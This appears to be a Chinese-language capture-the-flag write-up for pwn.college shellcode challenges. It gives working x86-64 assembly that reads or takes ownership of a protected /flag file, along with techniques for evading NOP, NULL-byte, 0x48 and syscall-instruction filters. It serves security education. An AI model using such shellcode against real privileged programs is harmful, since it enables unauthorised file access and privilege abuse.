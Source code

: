 ```yaml
---
title: Pwn College Shell Code
---
```


Shellcode challenges in pwn.college.

## 准备工作

首先，我不希望使用类似于 `pwntool` 这类完整的 CTF 框架，这会让我们失去对细节的理解。因此，我们将使用最基础的 `as` 作为我们的汇编器。
并且利用 `objcopy` 等来生成原生的 shellcode 进行注入。

### 编译脚本

```bash
#!/bin/bash
as --64 -o shell shell.s                        # 指示汇编器生成 64 位的代码。
objcopy -O binary -j .text shell shell.bin      # 汇编器生成的文件会包含不必要的元信息，我们使用 objcopy 将 .text 段提取出来。
objdump  -b binary shell.bin -m i386:x86-64 -D  # 输出我们的 shellcode 便于调试。
```

## Challenge 1 Plain Shellcode

这个挑战是最基础的 shellcode，程序直接执行我们注入的 shellcode。由于使用了 ASLR 保护，栈地址是完全随机的，所以我们需要确保我们的 shellcode 是位置无关的。

<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	leaq cmd(%rip), %rdi
	movq %rdi, argv1(%rip)
	leaq arg2(%rip), %rsi
	movq %rsi, argv2(%rip)
	leaq argv1(%rip), %rsi
	movq $0x3b, %rax
	movq $0x0, %rdx
	syscall

cmd: .string "/bin/cat"
argv1:  .long 0
	    .long 0
argv2:  .long 0
	    .long 0
	    .long 0
	    .long 0
arg2: .string "/flag"
```

</details>

接下来我们介绍几个重点部分。

### `lea` 指令
`lea` 全称为 Load Effective Address，其作用是将一个地址加载到一个寄存器中，不过不需要纠结，只要记住它的格式。与 `mov` 指令不同，`lea` 指令不会将地址中的内容加载到寄存器中，而是将地址本身加载到寄存器中。不过不需要纠结这些，只需要记住 `lea` 指令所代表的算术运算即可。

```assembly
lea o(r1,r2,m), rd
```

最后 `rd = o + r1 + r2 * m`，不管这些值代表什么，也不管最后的结果是否是一个合法的地址，`lea` 指令都会将这个结果加载到 `rd` 中。其中，`m` 代表单位位移量，只能取 1, 2, 4, 8 这几个值，分别代表 1, 2, 4, 8 字节的大小。`r1` 代表基址寄存器，`r2` 代表索引寄存器，`o` 代表偏移量。

而 `mov o(r1,r2,m), rd` 则是将 `o + r1 + r2 * m` 这个地址中的内容加载到 `rd` 中，也就是 `rd = *(o + r1 + r2 * m)`，如果最终结果不是一个合法地址，则会段错误。

### 位置无关代码
一般而言，位置无关代码是通过 pc 相对寻址实现的，也就是说我们的代码不依赖于绝对地址，而是通过目标地址与 pc 之间的偏移量来计算目标地址。而汇编器一般具有对于这类
指令的语法糖。例如 `leaq cmd(%rip), %rdi` 所代表的并不是将 `$cmd + %rip` 这个地址赋值给 `%rdi`，而是将 `$cmd` 这个地址以 pc 相对寻址的方式赋值给 `%rdi`。

### SetUID
这部分详见 [Linux 中各种各样的 UID](../uid)。

### `argv`
`argv` 是一个指向字符串指针的指针，我们需要将其设置为一个指向字符串指针的数组。在这里，我们将 `argv` 设置为一个指向字符串指针的数组，其中第一个指针指向 `cmd`，第二个指针指向 `arg2="/flag"`，第三个指针指向 `NULL` 代表终止符。

## Challenge 2 Shellcode with NOP Sled

这次程序会将 shellcode 的前 800 个字节删除，我们只需要在 shellcode 前面加上一些 NOP 指令即可。

```assembly
.fill 800, 1, 0x90
```

`.fill` 是一条伪指令，用于填充数据，其格式为 `.fill n, size, value`，表示填充 `n` 个 `size` 大小的 `value`。

## Challenge 3 Shellcode with NULL-byte Filter

这一次我们将不能使用 NULL 字节，因为程序会将 shellcode 中的 NULL 字节删除。我们将使用一个有意思的技巧，即在 shellcode 中再发起一个系统调用，这样我们可以通过这个系统调用来继续读取新的 shellcode。也就是我们将执行一个 `read(stdin, %rip, 0x1ff)` 的系统调用，这样我们就可以继续读取新的 shellcode。

获取 `%rip` 的值在没有 NULL 字节的情况下是非常困难的，幸运的是，这一次 Victim 程序会将我们的 shellcode 加载到一个固定的地址，我们可以直接在 shellcode 中硬编码常量。

<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	xor %rax, %rax
	xor %rdi, %rdi
	xor %rsi, %rsi
	xor %rdx, %rdx
	mov $0x15e0, %si
        shl $4, %rsi	
	add $0xd, %rsi
	shl $12, %rsi
	mov $0x1ff, %dx
	syscall
	.fill 0x1000,1,0x90

	leaq cmd(%rip), %rdi
	movq %rdi, argv1(%rip)
	leaq arg2(%rip), %rsi
	movq %rsi, argv2(%rip)
	leaq argv1(%rip), %rsi
	movq $0x3b, %rax
	movq $0x0, %rdx
	syscall

cmd: .string "/bin/cat"
argv1:  .long 0
	        .long 0
argv2:  .long 0
	        .long 0
	        .long 0
	        .long 0
arg2: .string "/flag"
```
</details>

同时通过一系列技巧来避免我们的 shellcode 中出现 NULL 字节。

- 使用 `xor` 指令来清空寄存器。
- 使用 `shl` 和 `add` 指令组合计算。
- 使用 16 位与 32 位指令而不是 64 位指令来避免 NULL 字节。 

## Challenge 4 Shellcode w.o 'H'
这个题目会提前过滤所有的 `H` 字符，也就是 `0x48`。下面是关键点。

- 使用 `push %reg` `pop %reg` 来设置寄存器。
- 使用 `read(stdin, %rip, length)` 来覆盖原有的 shellcode。

<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	push $0	
	pop %rax
	push $0	
	pop %rdi
	push $0	
	pop %rsi
	push $0	
	pop %rdx
	push $0x2520a000
	pop %rsi
	mov $0x1ff, %dx
	syscall
	.fill 0x1000,1,0x90

	leaq cmd(%rip), %rdi
	movq %rdi, argv1(%rip)
	leaq arg2(%rip), %rsi
	movq %rsi, argv2(%rip)
	leaq argv1(%rip), %rsi
	movq $0x3b, %rax
	movq $0x0, %rdx
	syscall

cmd: .string "/bin/cat"
argv1:  .long 0
	        .long 0
argv2:  .long 0
	        .long 0
	        .long 0
	        .long 0
arg2: .string "/flag"
```
</details>

## Challenge 5 & 6 Shellcode w.o `syscall`

这个题目会过滤 `syscall (0x0f 0x05)` 指令，直接在内存上现场构造即可。

<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	.fill 0x1000, 1, 0x90
	movb $0xf, target(%rip)
	movb $0x5, target+1(%rip)
	leaq cmd(%rip), %rdi
	movq %rdi, argv1(%rip)
	leaq arg2(%rip), %rsi
	movq %rsi, argv2(%rip)
	leaq argv1(%rip), %rsi
	movq $0x3b, %rax
	movq $0x0, %rdx
target: .long 0
	
	

cmd: .string "/bin/cat"
argv1:  .long 0
	        .long 0
argv2:  .long 0
	        .long 0
	        .long 0
	        .long 0
arg2: .string "/flag"
```

</details>


## Challenge 7 Shellcode with closed file descriptor

这个题目将所有的文件描述符都关闭了，因此不能通过 `cat` 之类的进行读取 flag。
我使用了 `chown` 直接改变 `/flag` 的权限。

<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	movb $0xf, target(%rip)
	movb $0x5, target+1(%rip)
	leaq cmd(%rip), %rdi
	movq %rdi, argv1(%rip)

	leaq arg2(%rip), %rsi
	movq %rsi, argv2(%rip)

	leaq arg3(%rip), %rsi
	movq %rsi, argv3(%rip)

	leaq argv1(%rip), %rsi
	movq $0x3b, %rax
	movq $0x0, %rdx
target: .long 0
	
	

cmd: .string "/bin/chown"
argv1:  .long 0
	.long 0
argv2:  .long 0
	.long 0
argv3:  .long 0
	.long 0
	        .long 0
	        .long 0
arg2: .string "hacker"
arg3: .string "/flag"

```
</details>

## Challenge 8 18 Byte Shellcode

这个是一个很有趣的题目，只允许 18 byte，我并没有分析在调用点进入时，有哪些寄存器不需要设置（可以复用）。
而是继续坚持使用 `execve("/bin/cat", NULL, NULL)`，但很显然 `/bin/cat` 会导致我的 Shellcode 超过上限。

因此，我用 C 语言编写了一个程序，命名为 `f` 放在当前的工作目录下，然后再利用 `execve` 调用该文件 `f` 来读取 flag。


<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	xor %esi, %esi
	xor %edx, %edx
	lea flag(%rip), %rdi
	push $0x3B
	pop %rax
	syscall
flag: .string "f"
```
</details>

## Challenge 9 Modified Shellcode

每隔 10 个 Byte，Shellcode 就会被改写，处理方式非常简单，用 `jmp` 把被改写部分跳过。

<details markdown="1">
<summary>shell.s (剧透警告)</summary>
```nasm
.section .text
.global _start
_start:
	leaq cmd(%rip), %rdi
        jmp 0f
        .fill 11, 1, 0x90
0:      leaq arg2(%rip), %r10
        jmp 1f
        .fill 11, 1, 0x90
1:      movq %r10, (%rsp)
        jmp 2f
        .fill 14, 1, 0x90
2:      movq %r10, -8(%rsp)
        jmp 3f
        .fill 13, 1, 0x90
3:      movq $0x0, %rdx
        jmp 4f
        .fill 11, 1, 0x90
4:      leaq -8(%rsp), %rsi
        jmp 5f
        .fill 13, 1, 0x90
5:      movq $0x3b, %rax
        jmp 6f
        .fill 11, 1, 0x90
6:      movq %rdx, 8(%rsp)
        syscall
.fill 13, 1, 0x90
cmd: .string "/bin/cat"
.fill 11, 1, 0x90
arg2: .string "/flag"
```
</details>
